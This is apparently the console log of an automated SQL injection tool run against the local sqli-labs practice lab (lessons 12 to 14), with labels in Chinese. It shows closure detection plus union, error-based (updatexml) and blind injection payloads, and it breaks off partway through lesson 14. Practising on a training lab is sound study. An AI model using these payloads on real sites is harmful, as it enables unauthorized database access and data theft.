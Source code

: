 
尝试盲注
http://127.0.0.1/sqli-labs/Less-12/?id=1"  and length(version())>=4 %23
false
..........
....................
....................
....................
.

盲注成功


尝试盲注
http://127.0.0.1/sqli-labs/Less-12/?id=1"  and length(database())>=4 %23
false
...................
....................
....................
...........

盲注成功




url: http://127.0.0.1/sqli-labs/Less-13
判断闭合方式
[   ] [ '  ] [ ')  ] [ '))  ] [ "  ] [ ")  ] [ "))  ] 即将开始联合注入

.........
..........
联合注入payload： http://127.0.0.1/sqli-labs/Less-13/?id=1"  and 1 = 0 union select 1,version(),database() %23
..
判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-13/?id=1"  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23
判断报错注入失败,没有获取信息，自动开始盲注


尝试盲注
http://127.0.0.1/sqli-labs/Less-13/?id=1"  and length(version())>=4 %23
false
........
....................
....................
....................
..

盲注成功


尝试盲注
http://127.0.0.1/sqli-labs/Less-13/?id=1"  and length(database())>=4 %23
false
..................
....................
....................
.............

盲注成功



url: http://127.0.0.1/sqli-labs/Less-14
判断闭合方式
[   ] 